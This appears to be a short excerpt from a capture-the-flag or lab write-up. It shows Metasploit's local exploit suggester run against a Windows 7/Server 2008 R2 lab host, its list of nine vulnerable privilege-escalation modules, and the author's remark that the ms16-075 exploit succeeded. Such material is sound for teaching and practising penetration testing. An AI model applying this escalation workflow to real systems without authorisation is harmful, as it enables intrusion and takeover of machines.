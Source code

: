 ```bash
msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1
SESSION => 1
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.93 - Collecting local exploits for x86/windows...
[*] 10.10.10.93 - 196 exploit checks are being tried...
[+] 10.10.10.93 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.93 - exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move: The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 build detected!
[+] 10.10.10.93 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.93 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.93 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.93 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.93 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.93 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[+] 10.10.10.93 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Running check method for exploit 41 / 41
[*] 10.10.10.93 - Valid modules for session 1:
============================

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.
 2   exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move   Yes                      The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 build detected!                     
 3   exploit/windows/local/ms13_053_schlamperei                     Yes                      The target appears to be vulnerable.
 4   exploit/windows/local/ms13_081_track_popup_menu                Yes                      The target appears to be vulnerable.
 5   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to be vulnerable.
 6   exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.
 7   exploit/windows/local/ms16_075_reflection                      Yes                      The target appears to be vulnerable.
 8   exploit/windows/local/ms16_075_reflection_juicy                Yes                      The target appears to be vulnerable.
 9   exploit/windows/local/ppr_flatten_rec                          Yes                      The target appears to be vulnerable.
```

It seems that several exploits are likely working with this machine.
I tried all listed exploits, and `ms16-075` exploit worked!
